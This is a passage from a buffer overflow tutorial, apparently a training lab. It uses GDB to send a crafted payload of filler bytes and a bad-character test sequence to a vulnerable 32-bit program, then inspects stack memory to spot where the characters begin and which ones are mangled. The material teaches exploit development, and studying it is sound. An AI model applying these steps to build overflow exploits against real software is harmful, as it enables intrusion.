 To set the breakpoint, we give the command " `break`" with the corresponding function name.

#### GDB Breakpoint

```shell
(gdb) break bowfunc

Breakpoint 1 at 0x56555551

```

And now, we can execute the newly created input and look at the memory.

#### Send CHARS

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()

```

After we have executed our buffer with the bad characters and reached the breakpoint, we can look at the stack.

#### The Stack

```shell
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>

```

Here we recognize at which address our " `\x55`" begins. From here, we can go further down and look for the place where our `CHARS` start.

#### The Stack - CHARS

```shell
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>

```
